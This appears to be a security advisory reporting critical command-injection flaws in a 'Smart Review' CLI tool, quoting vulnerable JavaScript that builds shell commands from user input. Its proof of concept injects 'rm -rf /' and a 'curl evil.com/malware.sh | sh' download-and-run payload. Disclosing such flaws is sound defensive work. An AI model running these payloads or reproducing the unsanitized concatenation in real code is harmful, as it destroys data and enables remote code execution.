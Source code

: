 # SECURITY ADVISORY - CRITICAL

**Product**: Smart Review Command  
**Severity**: CRITICAL  
**Date**: 2025-08-13  
**Status**: IMMEDIATE ACTION REQUIRED

## Executive Summary

The Smart Review command contains multiple critical security vulnerabilities that allow for remote code execution, unauthorized file system access, and information disclosure. **DO NOT DEPLOY TO PRODUCTION** until all vulnerabilities are remediated.

## Critical Vulnerabilities

### 1. Command Injection (CVE-Pending)

**Severity**: CRITICAL (CVSS 3.1: 9.8)  
**Attack Vector**: Network  
**Privileges Required**: None  
**User Interaction**: None  

#### Description
User-controlled input is directly concatenated into shell commands without sanitization, allowing arbitrary command execution.

#### Affected Code Locations
```javascript
// Line 146 - Direct command execution
await terminal.run(`mkdir -p ${outputDir}`);

// Lines 169-173 - Git command with user input
const gitCommand = lastCheckTime 
  ? `git diff --name-only --since="${lastCheckTime.toISOString()}"`
  : 'git diff --name-only HEAD~1';

// Lines 237-246 - Agent command construction
const filesArg = targetFiles.length > 0 
  ? `--files "${targetFiles.join(',')}"` 
  : `--target "${target}"`;
return `${baseCommand} ${filesArg} --iteration ${iteration}`;

// Line 669 - Comment agent execution
const command = `claude-code agent run ${commentAgent.id} --target "${target}"`;
```

#### Proof of Concept
```bash
# Exploit via target parameter
claude-code smart-review --target "; rm -rf / #"

# Exploit via output-dir parameter
claude-code smart-review --output-dir ".; curl evil.com/malware.sh | sh #"
```
